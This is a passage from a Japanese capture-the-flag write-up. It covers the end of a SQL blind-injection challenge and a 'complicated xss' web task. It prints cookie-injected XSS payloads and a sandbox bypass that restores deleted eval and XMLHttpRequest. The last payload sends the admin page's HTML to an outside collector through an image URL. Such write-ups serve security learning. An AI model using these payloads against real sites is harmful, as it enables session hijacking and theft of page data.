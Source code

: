 このようなスクリプトを書いて `python2 s.py "select(substr(flag,4,1))from(ce63e444b0d049e9c899c9a0336b3c59)" "[a-z]"` という感じでフラグ 1 文字ずつ特定できました。

```
flag{r4ce_c0nditi0n_i5_excited}
```

## [Web] complicated xss

与えられた URL (`government.vip`) にアクセスすると、フラグは http://admin.government.vip:8000 にあるということでした。また、XSS の payload を投げるとそのまま踏んでくれるようでした。

`admin.government.vip:8000` にアクセスしてみると、ログイン画面が表示されました。デフォルトのユーザ名 `test` とパスワード `test` でログインしてみると、`Hello test` `Only admin can upload a shell` が表示されました。

Cookie には session と username があり、username を `hoge` に変えてみると `Hello hoge` と表示されました。もしかしてこれで XSS ができるのではと username を `<s>hoge</s>` に変えてみると、`Hello ~hoge~` という感じで斜線の入った hoge が表示されました。

```html
<script>
document.cookie = 'session=(session id); domain=.government.vip; path=/';
document.cookie = 'username=(payload); domain=.government.vip; path=/';
</script>
```

という感じの payload を投げると admin.government.vip:8000 で XSS を踏ませることができそうです。

ソースを見てみると

```html
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
```

というように使えそうなものが消されてしまっています。が、`Image` は `document.createElement('img')` で代替でき、`XMLHttpRequest` も `iframe` を使って

```javascript
var frame = document.createElement('iframe');
document.body.appendChild(frame);
window.XMLHttpRequest = frame.contentWindow.XMLHttpRequest;
```

で元通りにできます。

これらを利用して

```html
<script>
var payload = "document.createElement('img').src = 'http://requestb.in/xxxxxx?' + encodeURIComponent(document.body.innerHTML);";
document.cookie = "username=<img src=x onerror=\"''.constructor.constructor(atob('" + btoa(payload) + "'))()\">; domain=.government.vip; path=/";
document.cookie = "session=(session id); domain=.government.vip; path=/";
location.href = 'http://admin.government.vip:8000';
</script>
```
